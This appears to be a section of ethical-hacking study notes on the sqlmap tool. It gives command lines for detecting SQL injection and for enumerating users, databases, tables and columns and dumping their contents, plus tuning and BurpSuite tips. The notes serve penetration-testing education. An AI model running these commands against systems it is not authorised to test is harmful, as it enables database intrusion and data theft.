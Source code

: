 # 5.4.6 SQLMap

## SQLMap

SQLMap is a powerful open-source penetration testing tool designed to automate the process of detecting and exploiting SQL injection flaws in web applications. It simplifies the identification and exploitation of SQL vulnerabilities, making it a widely used tool in the field of penetration testing.

### **Basic Syntax**

*   **Detecting SQL Injection:** To use SQLMap, provide the tool with the vulnerable URL and the parameter to test for SQL injection. For example:

    ```
    $ sqlmap -u "http://victim.site/view.php?id=1141" -p id --technique=U
    ```

    This command tells SQLMap to test the `id` parameter of a GET request for `view.php` using a Union-based SQL injection technique.
*   **Handling POST Parameters:** If the injection involves a POST parameter, the syntax would be:

    ```
    $ sqlmap -u <URL> --data=<POST string> -p parameter [options]
    ```

    You can write the POST string manually or copy it from a request intercepted with Burp Proxy.
*   **Using Request Files:** Save a request intercepted with Burp Proxy to a file and specify it on the command line:

    ```
    $ sqlmap -r <request file> -p parameter [options]
    ```

### **Extracting Information**

*   **Database Banner:** The `--banner` switch helps in grabbing the database banner to test injection and include proof of exploitability in reports:

    ```
    $ sqlmap -u <target> --banner <other options>
    ```
* **Information Gathering:**
  *   List users of the database:

      ```
      $ sqlmap -u <target> --users <other options>
      ```
  *   Check if the web application database user is a database administrator:

      ```
      $ sqlmap -u <target> --is-dba <other options>
      ```
* **Database and Schema Extraction:**
  *   List all available databases:

      ```
      $ sqlmap -u <target> --dbs <other options>
      ```
  *   Choose a database and list its tables:

      ```
      $ sqlmap -u <target> -D <database> --tables <other options>
      ```
  *   Choose tables and list their columns:

      ```
      $ sqlmap -u <target> -D <database> -T <tables, comma separated list> --columns <other options>
      ```
  *   Dump specific columns:

      ```
      $ sqlmap -u <target> -D <database> -T <tables> -C <columns list> --dump <other options>
      ```

### **SQLMap Advanced Usage**

*   **Forcing the DBMS:** Specify the DBMS to help shorten the detection phase:

    ```
    $ sqlmap --dbms=<DBMS> ...
    ```

    Available DBMS options include MySQL, Oracle, PostgreSQL, Microsoft SQL Server, and more.
*   **Fine-Tuning Payloads:** Use `--string` and `--not-string` to handle changes in application output. For example:

    ```
    $ sqlmap -u 'http://localhost/ecommerce.php?id=1' --string "nokia" <other switches>
    ```

    Utilize `--prefix` and `--suffix` for structured POST parameters.
* **Aggressiveness and Load:**
  * Use `--level` to test headers and increase the number of columns tested for in-band exploitation.
  * Use `--risk` to adjust the aggressiveness of injections. Higher risk levels enable more dangerous injections.
* **Connection Management:**
  *   Use `--keep-alive` for persistent connections:

      ```
      $ sqlmap -u <target> --keep-alive <other commands>
      ```
  *   Use `--threads` to exploit injections with parallel threads:

      ```
      $ sqlmap -u <target> --technique=8 --threads 7 <other commands>
      ```



* SQL Injections are powerful but can be destructive; hence, ethical hacking requires careful consideration.
* Understanding the tools and their options is crucial for successful and responsible penetration testing.
* SQLMap provides advanced command-line switches for fine-tuning and optimizing the exploitation process.
* Always exercise caution to avoid damaging the client's infrastructure and follow ethical hacking practices.

### BurpSuite & SQLMap

A great way to find out if a SQLi vulnerability is present is to use a web proxy such as BurpSuite, capture the traffic, and save the captured file locally (.xml).

We will then open that file with SQLMap and check for vulnerabilities or not.

```bash
sqlmap -r sql_request_captured.xml 
```

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap" %}
[SQLMap](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap)
{% endcontent-ref %}
